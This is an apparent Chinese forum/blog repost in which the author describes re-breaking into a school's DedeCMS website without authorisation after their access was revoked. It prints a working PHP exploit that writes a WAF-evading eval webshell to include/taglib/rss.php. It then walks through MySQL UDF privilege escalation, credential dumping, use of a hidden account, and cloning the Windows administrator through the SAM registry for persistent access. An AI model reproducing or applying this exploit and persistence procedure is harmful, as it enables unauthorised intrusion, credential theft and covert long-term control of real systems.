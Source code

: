 ```yaml
---
layout: post
title: "二次渗透已经到了的学校在次提权到克隆管理员"
categories:
- 今日头条
tags:
---
```

作者：X_Al3r

来源：http://bbs.ichunqiu.com/thread-17002-1-1.html 

00x01

话说在上次对已经要去的学习进行渗透测试后善良的我把洞丢给了老师（网站出问题了，老师找到我身上，不得不给！！！）为此，我跟老师成为了快乐的好基友，以至于我的权限掉了，这让我非常不开心，于是乎，又进行了二次渗透！并且这次我准备长期维权！

00x02

目标站：www.xxx.com//全程马赛克

Cms:二次开发dedecms

版本:20140814(在自己嘴残的情况下把自己所知道的洞都给说出去了，然后补了。)

使用nikto等工具扫均未果，在准备丢bugscan的时候想起土司大佬的文章，于是乎就开干了。

漏洞文件地址:/plus/flink_add.php

![](http://p3.pstatp.com/large/134f000239861dcae673)

并且exp也已经公布，但是经过我的提醒后老师可能装了360等waf，我需要大致的修改下exp

Exp:

[PHP] 纯文本查看 复制代码

?

01020304050607080910111213<?php//print_r($_SERVER);$referer = $_SERVER['HTTP_REFERER'];$dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径//拼接 exp$muma='<'.'?'.'p'.'h'.'p'.' '.'$'.'a'.' '.'='.' '.'''.'b'.'''.';'.' '.'$'.'b'.' '.'='.' '.'P'.'O'.'S'.'T'.'['.'''.'x'.'''.']'.';'.' '.'@'.'e'.'v'.'a'.'l'.'('.'$'.'$'.'a'.')'.';'.' '.'?'.'>';$exp='tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=rss.php';$url = $dede_login.$exp;//echo $url;header("location: ".$url);// send mail coderexit();?>

这里可以看见$muma哪里的内容为<?php @eval($_POST[‘x’]; )?>然后用’.’分割开来的,按葫芦画瓢，构造一个过waf的一句即可

ps：$muma = '<'.'?'.'p'.'h'.'p'.' '.'$'.'a'.' '.'='.' '.'''.'b'.'''.';'.' '.'$'.'b'.' '.'='.' '.'P'.'O'.'S'.'T'.'['.'''.'x'.'''.']'.';'.' '.'@'.'e'.'v'.'a'.'l'.'('.'$'.'$'.'a'.')'.';'.' '.'?'.'>';

触发的时候会生成一个：include/taglib/rss.php

丢到一个站上准备套路老师（因为有权限写的，老师不会上当了。。。所以用小号还原下当时情况）

![](http://p3.pstatp.com/large/13500000abe80a3eabd3)

看样子已经触发了，访问下文件

![](http://p3.pstatp.com/large/134f0002398980d7c3f4)

文件存在，菜刀连接之~

![](http://p1.pstatp.com/large/134f0002398a3cf71595)

熟悉的界面，继续寻找mysql root账号，在提权一次

![](http://p3.pstatp.com/large/135100052dfa5a3b3968)

这次pass竟然直接是明文，并且直接就是root,大吃一惊- -# 看来他以为不会再有人进来了，不过挺好，估计内部的洞都没修复。那么不用解释了，上大马，开车

![](http://p3.pstatp.com/large/134f0002398ba97e4a56)

Mysql版本：5.5.35

似乎跟以前没什么两样，那么先找一下路径好用来导出udf

![](http://p1.pstatp.com/large/12de0007b578ad12748c)

安装路径：D:/MySQL/MySQL Server 5.5/，咦，安装路径变了

好吧，直接提权，先导出dll

导出成功，执行语句

这个版本的马发现导出成功了并不能执行命令，于是乎我又换了一个版本的马

![](http://p3.pstatp.com/large/135100052dfb7b6ccae5)

What? 这次连导出也不能？吓得我去看了下目录

![](http://p3.pstatp.com/large/134e0001f2455882614b)

以为重命名不可覆盖，我又换了好几个名字发现确实写进去了。

![](http://p3.pstatp.com/large/134e0001f24306fbe282)

然而却不能调用，于是抽支烟压压惊先

突然，猛地想起，我把web的权限已经提升为管理员了，应该可以直接执行命令

![](http://p1.pstatp.com/large/13500000abee286aa9f2)

权限给降下来了，表示懵逼- -# 该怎么办呢？

然后，奇迹出现了，我的隐藏用户没被删，直接登陆服务器~~~~（大翻车）

![](http://p3.pstatp.com/large/135100052dfd0de3b438)

发现没权限，于是乎又开始绕- -#

![](http://p3.pstatp.com/large/13500000abed843d003f)

以管理员运行就有权限了

![](http://p3.pstatp.com/large/134e0001f24a417cf916)

于是乎开始抓

![](http://p3.pstatp.com/large/135100052e0666b9890f)

既然说留权限，那么就克隆一个administrator吧

依次进入注册表HKEY_LOCAL_MACHINE---->SAM---->SAM

默认是没读取权限的

![](http://p3.pstatp.com/large/135100052dfe0d2f663c)

依次单击“查看”菜单----“刷新”，可以看到SAM下面的子项已经出来了。

![](http://p9.pstatp.com/large/134e0001f2496b0f2126)

进入到Users目录

![](http://p3.pstatp.com/large/135200019c2b41e174c7)

可以看见，administrator对应着01F4

![](http://p1.pstatp.com/large/135100052e01fe98f2a8)

把F值保存一下，在找到guest对应的F值，复制进去就可以了

然后启动下Guset用户就可以了，当然，可以使用ca等工具更快捷

因为用户不能添加到管理组，所以才克隆用户，这个在上次渗透中有提到过。另外就是管理组克隆可以用来创建超级隐藏用户等姿势。